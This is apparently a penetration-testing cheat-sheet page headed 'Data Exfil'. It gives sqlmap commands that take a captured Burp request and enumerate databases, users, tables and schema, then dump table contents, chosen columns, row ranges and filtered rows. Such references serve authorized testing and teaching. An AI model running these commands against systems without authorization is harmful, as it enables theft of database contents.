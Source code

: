### Data Exfil

{% tabs %}
{% tab title="DB" %}
```bash
# List databases
sqlmap -r burp.req --batch --dbs
# Current database and user
sqlmap -r burp.req --banner --current-user --current-db --is-dba --batch
```
{% endtab %}

{% tab title="Tables" %}
```bash
sqlmap -r burp.req -D testdb --tables --batch
```
{% endtab %}

{% tab title="Table Data" %}
```bash
sqlmap -r burp.req -D testdb -T testtable --dump --batch
```
{% endtab %}

{% tab title="Columns" %}
```bash
sqlmap -r burp.req -D testdb -T testtable --dump -C col1,col2 --batch
```
{% endtab %}

{% tab title="Rows" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req -D testdb -T testtable --dump -C --start=1 --stop=10 --batch
```
{% endcode %}
{% endtab %}

{% tab title="Schema" %}
```bash
sqlmap -r burp.req --schema --batch
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Cond Enum" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req -D testdb -T testtable --dump --where="col1 LIKE 'f%'" --batch -v 0
```
{% endcode %}
{% endtab %}

{% tab title="Full DB Enum" %}
```bash
sqlmap -r burp.req -D testdb --batch -v 0
```
{% endtab %}
